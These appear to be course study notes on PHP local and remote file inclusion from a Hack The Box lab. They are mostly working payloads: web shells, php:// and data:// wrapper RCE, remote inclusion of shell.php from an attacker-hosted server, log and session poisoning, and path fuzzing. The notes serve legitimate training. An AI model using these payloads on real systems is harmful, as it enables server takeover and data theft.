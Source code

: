 ################
File Inclusion
################

2024-12-03 07:50

Status:

Tags: 


*****************
Using PHP filters
*****************

php filters can allow you to view the contents of unreadable files

example 1 : step 1 - find file that you wish to read the source code of:( has no output)

.. code-block:: console

   ffuf -w ~/HTB/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt  -u http://94.237.59.180:41191/FUZZ.php

   found configure

Example 2: Use the Conversion Filter to read the file:

.. code-block:: console

   curl http://94.237.59.180:41191/index.php?language=php://filter/read=convert.base64-encode/resource=configure

************************
Using PHP Wrappers
************************

Example 1: Reading a system file

.. code-block:: console

    curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

******************************
RCE (Remote code execution)
******************************

This technique users the GET method

Step 1: Encode the shell

.. code-block:: console

   echo '<?php system($_GET["cmd"]); ?>' | base64

*Note: if the system does not take the GET command, encode the payload
in system command.*

Step 2: From a web browser

.. code-block:: console

   http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

Or from CURL

.. code-block:: console

   curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'


******************************
Using the input wrapper
******************************

This technique users the POST method, so it must be enabled on the
server

Example: Using curl

.. code-block:: console

   curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"


******************************
Using the Expect Wrapper
******************************

Rare that this is include. It has to be installed manually. This wrapper
runs code without the shell.

Example:

.. code-block:: console

   curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
   uid=33(www-data) gid=33(www-data) groups=33(www-data)

******************************
Remote File Inclusion (RFI)
******************************

This is normally disabled by default In PHP the ``allow_url_include``
needs to be enabled for this to work.

******************************
Using a web server
******************************

Example 1: To test this try a RFI in the browser request

.. code-block:: console

   http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php

If you see it’s own content encapsulated, it is vulnerable.

Example 2: Performing a RFI attack. Step one: Encode a shell

.. code-block:: console

   echo '<?php system($_GET["cmd"]); ?>' > shell.php

Step two: Host this on your server

.. code-block:: console

   sudo python3 -m http.server <LISTENING_PORT>

Step three: Request this shell in the browser

.. code-block:: console

   http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id

**Tip:**\ * We can examine the connection on our machine to ensure the
request is being sent as we specified it. For example, if we saw an
extra extension (.php) was appended to the request, then we can omit it
from our payload*

******************************
Using an FTP server
******************************

**Note**\ *: This can also be hosted on your FTP server if http/https is
blocked on a WAF*

.. code-block:: console

   curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'

******************************
Using a SMB server
******************************

Step 1: Start a Samba server
.. code-block::

   impacket-smbserver -smb2support share $(pwd)

Request the shell

.. code-block:: console

   http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami

******************************
File Uploads
******************************

Example 1: Using LFI
Step one: Create the shell with an image extension
.. code-block:: console

   echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

Step two: Upload the file

Step three: Find the image location

Step four: Execute the file

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

Example 2: Using ZIP files ( Zip wrapper)

https://www.php.net/manual/en/wrappers.compression.php

Step 1: zipping the file

.. code-block:: console

   echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

*Note: If the server inspects and denies ZIP content this may not work*

Step 2: Upload the file

Step 3: Execute the file

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

Example 3: Using PHAR wrapper

Step 1: Write the following inside of shell.php

.. code-block:: console

   <?php
   $phar = new Phar('shell.phar');
   $phar->startBuffering();
   $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
   $phar->setStub('<?php __HALT_COMPILER(); ?>');

   $phar->stopBuffering();

Step 2: Compile the it into a phar file and rename it to shell.jpg

.. code-block:: console

    php --define phar.readonly=0 shell.php
    mv shell.phar shell.jpg

Step 3: Upload the file to the server

Step 4: Execute it with the phar wrapper

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id

******************************
Poisoning
******************************

===================
Session Poisoning
===================

By URL encoding a shell.

Example: Step 1: urlencode the shell

.. code-block:: console

   urlencode '<?php system($_GET["cmd"]);?>' 

Step 2: Request this as an inclusion

.. code-block:: console

   Browser:  http://94.237.59.180:40783/index.php?language=<urlencoded-string>

Step 3: Using your session id ( add ``sess_`` before it )

.. code-block:: console

   Browser: /var/lib/php/sessions/sess_bpo3d1hh7nbb6p1frr98udaa60&cmd=id

=====================
Server Log Poisoning
=====================

By modifying the user-agent field we can specify a shell that will be
copied to the log.
.. code-block::

   Temen@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"

The by requesting the log with:

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id


=====================
Automated Scanning
=====================

Using `ffuf <../tools/ffuf>`__ to find parameters


Looking for parameter names to use with your RFI/LFI attacks

.. code-block:: console

   Temen@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' 

===============
LFI Word lists
===============

Download here:
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

Using it with `ffuf <../tools/ffuf>`__

.. code-block:: console

   ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

======================
Fuzzing Server Files
======================

Finding the Webroot and structure of the server


Part of Seclists, but can be downloaded for Linux:
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt

And for Windows
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt

Example:

.. code-block:: console

   ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php'

==================================
Finding the location of the logs
==================================

Example: Using the linux LFI list

.. code-block:: console

   ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ'

Example 2: Find logs by asking the conf file

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

===================
Common LFI Tools
===================
https://github.com/mzfr/liffy

*************
References
*************

https://academy.hackthebox.com/module/23/section/250
https://www.php.net/manual/en/wrappers.data.php
https://academy.hackthebox.com/module/23/section/253
https://www.php.net/manual/en/wrappers.php.php
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion
